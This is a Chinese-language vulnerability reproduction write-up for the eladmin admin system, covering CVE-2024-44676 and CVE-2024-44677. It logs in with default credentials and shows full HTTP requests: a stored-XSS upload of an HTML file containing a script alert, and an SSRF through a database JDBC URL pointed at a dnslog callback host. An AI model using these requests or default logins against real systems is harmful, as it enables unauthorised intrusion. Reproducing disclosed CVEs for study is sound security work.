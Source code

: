 ```yaml
---
title: eladmin-复现
date: 2024-09-09 09:32:57
tags:
---
```


# 0.github项目地址

[elunez/eladmin: eladmin jpa 版本：项目基于 Spring Boot 2.6.4、 Jpa、 Spring Security、Redis、Vue的前后端分离的后台管理系统，项目采用分模块开发方式， 权限控制采用 RBAC，支持数据字典与数据权限管理，支持一键生成前后端代码，支持动态路由 (github.com)](https://github.com/elunez/eladmin)

# 1.用默认密码登录后台

admin/123456

![image-20240909093504969](eladmin-复现/image-20240909093504969.png)

# CVE-2024-44676

XSS漏洞

## 1.找到文件存储功能

系统工具 - 存储股那里 - 文件上传

![image-20240909094917731](eladmin-复现/image-20240909094917731.png)

上传文件，数据包如下

```
POST /api/localStorage?name=111 HTTP/1.1
Host: localhost:8000
Content-Length: 204
sec-ch-ua: "Chromium";v="119", "Not?A_Brand";v="24"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydm6xWQjws9AqeeBj
sec-ch-ua-mobile: ?0
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJqdGkiOiJlMjZmYzFiNzQ1M2Q0ZjBlODg4NGRiNjQ3NDZjNmVmNCIsInVzZXIiOiJhZG1pbiIsInN1YiI6ImFkbWluIn0.IX5Benb8JGPsQ_jkpL5jMy3wmfq5YgOakx1tfV1064_QjwcRHAGg0lqDlwcFxRNlnBEvb0xZqCQbWsuGwUWyRQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.123 Safari/537.36
sec-ch-ua-platform: "Windows"
Accept: */*
Origin: http://localhost:8013
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8013/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundarydm6xWQjws9AqeeBj
Content-Disposition: form-data; name="file"; filename="1.html"
Content-Type: text/html

<script>alert(1)</script>
------WebKitFormBoundarydm6xWQjws9AqeeBj--

```

## 2.访问文件地址

如下图，出现弹窗，证明了存在xss漏洞

![image-20240909094818168](eladmin-复现/image-20240909094818168.png)

# CVE-2024-44677

SSRF漏洞

## 1.访问dnslog平台并申请域名

![image-20240909093611696](eladmin-复现/image-20240909093611696.png)

域名为 ae2a2f2773.ipv6.1433.eu.org.

## 2.在数据库管理中测试ssrf

testssrf.ae2a2f2773.ipv6.1433.eu.org.

漏洞点在 运维管理 - 数据库管理 - 新增数据库 - jdbc地址

![image-20240909094023940](eladmin-复现/image-20240909094023940.png)

数据包为

```
POST /api/database HTTP/1.1
Host: localhost:8013
Content-Length: 111
sec-ch-ua: "Chromium";v="119", "Not?A_Brand";v="24"
Accept: application/json, text/plain, */*
Content-Type: application/json
sec-ch-ua-mobile: ?0
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJqdGkiOiJlMjZmYzFiNzQ1M2Q0ZjBlODg4NGRiNjQ3NDZjNmVmNCIsInVzZXIiOiJhZG1pbiIsInN1YiI6ImFkbWluIn0.IX5Benb8JGPsQ_jkpL5jMy3wmfq5YgOakx1tfV1064_QjwcRHAGg0lqDlwcFxRNlnBEvb0xZqCQbWsuGwUWyRQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.123 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:8013
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8013/mnt/mnt/database
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: USER_NAME_COOKIE=admin; SID_1=6ff9d0e1; ELADMIN-TOEKN=Bearer%20eyJhbGciOiJIUzUxMiJ9.eyJqdGkiOiJlMjZmYzFiNzQ1M2Q0ZjBlODg4NGRiNjQ3NDZjNmVmNCIsInVzZXIiOiJhZG1pbiIsInN1YiI6ImFkbWluIn0.IX5Benb8JGPsQ_jkpL5jMy3wmfq5YgOakx1tfV1064_QjwcRHAGg0lqDlwcFxRNlnBEvb0xZqCQbWsuGwUWyRQ
Connection: close

{"id":null,"name":"11","jdbcUrl":"jdbc:mysql://testssrf.ae2a2f2773.ipv6.1433.eu.org.","userName":"1","pwd":"1"}
```

点击确定后能看到右上角提示新增成功

![image-20240909094257824](eladmin-复现/image-20240909094257824.png)

点击 jdbc 地址右侧的测试

![image-20240909094440434](eladmin-复现/image-20240909094440434.png)

数据包为

```
POST /api/database/testConnect HTTP/1.1
Host: localhost:8013
Content-Length: 253
sec-ch-ua: "Chromium";v="119", "Not?A_Brand";v="24"
Accept: application/json, text/plain, */*
Content-Type: application/json
sec-ch-ua-mobile: ?0
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJqdGkiOiJlMjZmYzFiNzQ1M2Q0ZjBlODg4NGRiNjQ3NDZjNmVmNCIsInVzZXIiOiJhZG1pbiIsInN1YiI6ImFkbWluIn0.IX5Benb8JGPsQ_jkpL5jMy3wmfq5YgOakx1tfV1064_QjwcRHAGg0lqDlwcFxRNlnBEvb0xZqCQbWsuGwUWyRQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.123 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:8013
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8013/mnt/mnt/database
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: USER_NAME_COOKIE=admin; SID_1=6ff9d0e1; ELADMIN-TOEKN=Bearer%20eyJhbGciOiJIUzUxMiJ9.eyJqdGkiOiJlMjZmYzFiNzQ1M2Q0ZjBlODg4NGRiNjQ3NDZjNmVmNCIsInVzZXIiOiJhZG1pbiIsInN1YiI6ImFkbWluIn0.IX5Benb8JGPsQ_jkpL5jMy3wmfq5YgOakx1tfV1064_QjwcRHAGg0lqDlwcFxRNlnBEvb0xZqCQbWsuGwUWyRQ
Connection: close

{"id":"3e070f45c072498299675b4f290137bd","name":"11","jdbcUrl":"jdbc:mysql://testssrf.ae2a2f2773.ipv6.1433.eu.org.","userName":"aaa","pwd":"111","createBy":"admin","createTime":"2024-09-09 09:42:42","updateBy":"admin","updateTime":"2024-09-09 09:44:21"}
```

回到dndlog平台，如下图所示，有dns请求解析记录，证明了ssrf漏洞

![image-20240909094520768](eladmin-复现/image-20240909094520768.png)
